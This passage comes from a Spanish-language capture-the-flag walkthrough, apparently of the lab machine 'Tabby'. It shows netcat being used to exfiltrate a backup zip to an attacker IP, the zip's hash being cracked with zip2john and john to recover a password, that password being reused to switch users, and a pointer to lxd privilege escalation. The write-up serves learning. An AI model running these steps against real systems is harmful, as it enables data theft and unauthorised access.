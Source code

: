Nos `ponemos` en `escucha` en nuestro equipo para `transferir` el `archivo`

```
# nc -nlvp 4444 > 16162020_backup.zip
```

Nos `enviamos` el `archivo` a nuestro equipo

```
tomcat@tabby:/var/www/html/files$ nc -w 3 10.10.16.23 4444 < 16162020_backup.zip
```

El `zip` tiene una `contraseña` así que usamos `zip2john` para obtener un `hash`, nos devolverá más texto pero solo debemos introducir el `hash` en un archivo

```
# zip2john 16162020_backup.zip
16162020_backup.zip:$pkzip$5*1*1*0*8*24*7db5*dd84cfff4c26e855919708e34b3a32adc4d5c1a0f2a24b1e59be93f3641b254fde4da84c*1*0*8*24*6a8b*32010e3d24c744ea56561bbf91c0d4e22f9a300fcf01562f6fcf5c986924e5a6f6138334*1*0*0*24*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*5935*f422c178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip$::16162020_backup.zip:var/www/html/news.php, var/www/html/favicon.ico, var/www/html/Readme.txt, var/www/html/logo.png, var/www/html/index.php:16162020_backup.zip
```

`Crackeamos` el `hash` con `john` y `obtenemos` una `contraseña`

```
# john -w:rockyou.txt --format=pkzip hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (16162020_backup.zip)     
1g 0:00:00:00 DONE (2024-08-12 21:04) 1.136g/s 11785Kp/s 11785Kc/s 11785KC/s adornadis..adamsapple:)1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Como el archivo es del usuario `ash` supongo que será su `contraseña`

```
tomcat@tabby:/var/www/html/files$ su ash
Password: 
ash@tabby:/var/www/html/files$ whoami
ash
```

Vemos que estamos en el `grupo lxd`, vamos a seguir estos `pasos` para `convertirnos` en usuario `root` [https://exploit-notes.hdks.org/exploit/linux/container/lxc-lxd-privilege-escalation/](https://exploit-notes.hdks.org/exploit/linux/container/lxc-lxd-privilege-escalation/)

```
ash@tabby:/home$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```
